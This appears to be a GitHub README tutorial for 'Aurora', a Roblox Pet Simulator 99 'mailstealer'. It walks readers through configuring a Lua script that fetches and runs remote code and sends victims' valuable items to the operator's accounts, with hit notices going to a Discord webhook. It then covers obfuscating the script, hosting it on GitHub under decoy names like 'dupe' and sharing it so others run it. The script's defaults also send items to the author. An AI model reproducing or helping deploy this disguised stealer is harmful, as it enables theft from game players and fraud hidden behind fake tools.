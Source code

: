 # ❗❗❗❗DISCLAIMER❗❗❗❗
- **I had made a tutorial for my mailstealer (for pet simulator99) [Aurora](https://discord.gg/Eh7EX6dzAF) feel free to join my server this is a direct copy and paste of my tutorial from the discord**
- **This tutorial/tools are educational, iam not responsible for anything you do**
- **tools/tutorial will be updated every now**
# ANY ALLEGATIONS THAT AURORA IS DUALHOOKED WITH NO PROOF WILL BE PUNISHED
# tutorial
Alright chat this is a tutorial  
Since everyone's stupid and can't understand lua 😭  
And I don't have the resources to host a 24/7 mailsteal creator bot So here's a tutorial So I'll be explaining most of the shit  
# 1 getting your webhook
video tutorial below:  
[![Click me!](https://img.youtube.com/vi/video-id/0.jpg)](https://github.com/Enivzoy/Aurora/raw/main/pics/webhook.mp4)  
From my [partner<3](https://discord.gg/CxhY6rpUCA)  
  
Cant download? Try this Instead  
  
if you cannot get webhook on discord mobile then discord on the web(chrome) + desktop mode  
  
Create A new discord server  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/52323e22-8b40-4ae5-8be5-b35579bc0e27)  
Name it whatever you want it doesnt matter  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0e446427-0d39-46c9-be2f-3a276d2ad3a7)  
edit your general channel  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/18304642-97cc-465a-9117-8a97d6b7cccf)  
go to integrations  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/818412ec-e331-4353-8d55-95f81cad3e66)  
then click create a webhook  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8448d93c-1328-4f44-8739-752fec73d0ab)  
by default you should see a spidey bot  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/04880695-ae31-4c91-947f-29f6f6925f3c)  
Click copy webhook url and ur done  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/f5b0b964-2030-47b0-b407-7bd9286f9492)  
 


# 2: setting up the lua code
# TIP FOR ANDRIOD USERS
- get [X-Plore File manager](https://play.google.com/store/apps/details?id=com.lonelycatgames.Xplore&hl=en&gl=US&pli=1)
<details>  
  <summary>Aurora Mailstealer</summary>  
  
Get the script from ⁠[script channel from discord](https://discord.com/channels/1226830019939143690/1227851051634266193)
It should look like this:
```lua
Username = "your user here"
Username2 = "your 2nd user here" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "your webhook here"
min_rap = 500000 -- minimum rap of each item you want to get sent to you.

keySystemEnabled = true -- wether you want to enable key system or not
hubName = "Hubname | Keysystem" -- self explain
keyLink = "https://example.com/" -- the link wehere yoi cam get your keys this can be a discord invite
keys = {"key1", "key2", "andsoon"} -- the keys for your key system

loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Utilz/main/lua/rblx/AuroraTils/mainframe'))()
```
Now I will update the script more  
So don't copy the script from here incase a major rewrite/bugs go join the [discord](https://discord.gg/Eh7EX6dzAF) for updated script  
So as per [update 4.6/keysystem1.2](https://discord.com/channels/1226830019939143690/1227851051634266193/1240374560046714910) the script is updated   
Make sure you have a ps99 account which can receive mail, Aka must have reached area 10. It's better to use a alt account (or 2 alt accounts incase you get banned)  
So the `Username` should be your username for like the account to receive the mail  
For example `Username = "GetAuroraMS"`  
Now here's the tricky part  
If you have an alt  
You need to fill in the `Username2` also  
If you happen to have your mains mailbox full it will send to username2  
Now if this value(Username2) is kept empty/removed then it'll be set to my ign(only if the value is empty or removed completely) to avoid errors(no this isn't dualhooking, it's a failsafe)  
~~If I'm nice I might return the items~~  
Now the webhook, You should've gotten the webhook from step 1 So put it to the `Webhook` value  
For example `Webhook = "discord.com/x/x`  

  
Now minimum rap, Minimum rap means the item has to be the same or above the rap you put into the script   
  
Now let's say you have min rap to about 1m, And you hit a guy with 500k
You won't get anything because the min rap is 1m  
Now minrap is calculated based on whole numbers(no "m" or "k" if it's 6k then it should be 6000 if it's 1m then it should be 1000000)  
So if your into the high stuff  
Set your min rap to 1-3m  
# key system (ohh boi this gon be hard to explain(i think so?))  
So key system is like a gui that opens when you run the script  
You can enable this (it's enabled by default) by setting the `keySystemEnabled` value to true  
If you dont want key system  
Just set it to false `keySystemEnabled = false`  
Or remove everything related to it (keySystemEnabled, hubName, keyLink, keys !!!!DO NOT TOUCH THE LOADSTRING!!!!)  
I think you can figure rest of the stuff out  
  
use https://enivzoy.github.io/Aurora/ to generate your script for better user interface
  
</details>  
<details>  
  <summary>Tobi Mailstealer</summary>  
   
[Aurora](https://discord.gg/Eh7EX6dzAF) is 99.99% better
use aurora instead, but since im nice ill do tobis too  
get the script from tobis script channel the currrent one at 5/28/24 is V6.1  
i wont be sharing his discord server upto you to find it or use aurora instead    
it should look something like this  
  
```lua
Username = "your user here"
Username2 = "your 2nd user here" -- stuff will get sent to this user if first user's mailbox is full
Webhook = "your webhook here"
Support = true -- if you dont want to support me make this "false" (without quotes). 50% chance I get hit if its 10+ huges or 500+ mil rap
min_rap = 500000 -- minimum rap of each item you want to get sent to you.
loadstring(game:HttpGet("USE AURORA INSTEAD"))()
```
  
don't copy the script from here incase a major rewrite/bugs go join tobis server for a updated one
Make sure you have a ps99 account which can receive mail, Aka must have reached area 10. It's better to use a alt account (or 2 alt accounts incase you get banned)  
So the `Username` should be your username for like the account to receive the mail  
For example `Username = "GetAuroraMS"`  
Now here's the tricky part  
If you have an alt  
You need to fill in the `Username2` also  
If you happen to have your mains mailbox full it will send to username2  
Now if this value(Username2) is kept empty/removed then it'll be set to my ign(only if the value is empty or removed completely) to avoid errors(no this isn't dualhooking, it's a failsafe)  
~~If I'm nice I might return the items~~  
Now the webhook, You should've gotten the webhook from step 1 So put it to the `Webhook` value  
For example `Webhook = "discord.com/x/x`  

Now support, Ssupport means that if you get 10+ huges or 500+ mil rap then it flips a coin(math.random) and if its (>0.5) then it will send the hit to tobi, for your sake its upto you to set this to false  
  
Now minimum rap, Minimum rap means the item has to be the same or above the rap you put into the script   
  
Now let's say you have min rap to about 1m, And you hit a guy with 500k
You won't get anything because the min rap is 1m  
Now minrap is calculated based on whole numbers(no "m" or "k" if it's 6k then it should be 6000 if it's 1m then it should be 1000000)  
So if your into the high stuff  
Set your min rap to 1-3m  
  
this is it for tobis but aurora is wayy better so join [Aurora](https://discord.gg/Eh7EX6dzAF)
continue following step 3 : obfuscation & uploading
  
</details>   
  
now after doing everything you save your script to a file call it mailsetaler.txt and save it somewhere(using notepad or a file editor) then go to step 3(part2)  
Make sure to [DM](https://discord.gg/Eh7EX6dzAF) me(aurora or raptured) if you cant follow something  I'll help you   

# 3: obfuscation & uploading
Now you gotta obfuscate your bot so people don't spam your webhook  
I'll be showing you how to use moonsec in this tutorial  
aight  
so first you gotta join **[moonsex](https://discord.gg/2Eah77h8KC)**  
you dm this bot  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/614c946d-1b90-4070-9713-3aff416ad181)  
then you send the file you saved(mailsetaler.txt - ⁠[#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240376735581601934)) to the bot  
you will see smth like this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/ba5a7b3c-6d6e-41f5-9731-30eff687b29e)  
click this   
![image](https://github.com/Enivzoy/Aurora/assets/130647229/7852cefd-17f3-4808-8b96-72e3c1fd1470)   
then you click this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/30c3c77e-a9ad-47b2-bf5f-757a62226c99)  
it should look like this now  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/dba1dd35-2c3f-42de-b1b2-01b8b975daf3)  
then click all of these  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0fb68965-064c-45e9-ae9b-7b5dc71f45bb)  
then click obfuscate  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/4d17cc43-574c-488c-a72b-b1f3fdcb9690)  
it willl show this embed click on the **[Click Here]** to download the file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/d0202540-2646-4475-8a05-f2c6b2cef77f)  
you will have to do a linkvertise  
once you get your file(THIS WILL BE DIFFERENT FOR EVERYONE)  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8aa2dd5f-b35d-4a46-b239-366481d74d2b)  
rename it to something else like "loader" "exec" "dupe" "tradescam" "arkohub", "aurorahub" etc etc
![image](https://github.com/Enivzoy/Aurora/assets/130647229/32598d66-be6d-41d3-96f7-090ab96dd1e9)
# Now uploading
create your account at [github](https://github.com/)  
your homepage should look like this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/467c470e-2fea-46dd-9d8f-811f8d354d60)  
click this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/e36259f7-965a-41bd-b855-d0cdebfba9ed)  
click new repository  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0782fd97-53b3-4633-a9a0-b7c383d7fa00)  
it will open this page  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/2c3b7233-b389-4c4f-b918-97fbed434492)  
click create repo after filling in everything  
# MAKE SURE THE REPOSITORY IS PUBLIC!!! AND NOT PRIVATE THIS WILL BREAK YOUR SCRIPT
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8146420e-d331-4175-a5a6-183270456be8)  
it will now show this   
![image](https://github.com/Enivzoy/Aurora/assets/130647229/c36db808-0252-477f-a763-bda51feb6da5)  
click uploading an existing file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/65ce8aed-6b7f-49bd-9200-ed460b265f27)  
it will open this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/a744f62c-e5d8-4728-86cd-2f1fb47042a3)  
find where you had saved your file ([#⁠tutorial-since-stupid](https://discord.com/channels/1226830019939143690/1240373088063983767/1240556624561832037)⁠ TILL⁠ [#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240557422091698176)) for me its loader saved in downloads folder  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0df73a16-4f5b-4372-944d-4c44485a0d7d)  
drag and drop your file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/859fe5e9-cf57-4530-bdb7-2eb17931acdd)  
once uploaded click commit changes  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/690a548f-1d3d-4685-9ecc-68ea0c0e2f71)  
if youve done everything right to this point it should look like this  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/476a12f6-2bf9-4262-8346-f0525c82275b)  
click your file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8f64d269-0764-4c5b-8f35-0f716d4ddcaa)  
it should open this up, then click raw  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/a4427ac1-3f2d-4e53-a4a1-4800e338f9fe)  
you will see this mess  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/eb6404dd-0960-4d03-9a61-722eb23c128b)  
copy the url for me it is https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/ea75ed82-8545-44f4-ac3c-4798eee14153)   
then you put the raw link into a loadstring  
`loadstring(game:HttpGet('RAW LINK HERE'))()`  
for me it is `loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader'))()`  
  
  
now you share the script  
and porfit  
profit  
make sure to dm me your profits  
so i can advertise it 👍  
if you dont understand something make sure to dmme  
# thanks to my discord server, arko and levox and future partners for providing me with resources and etc
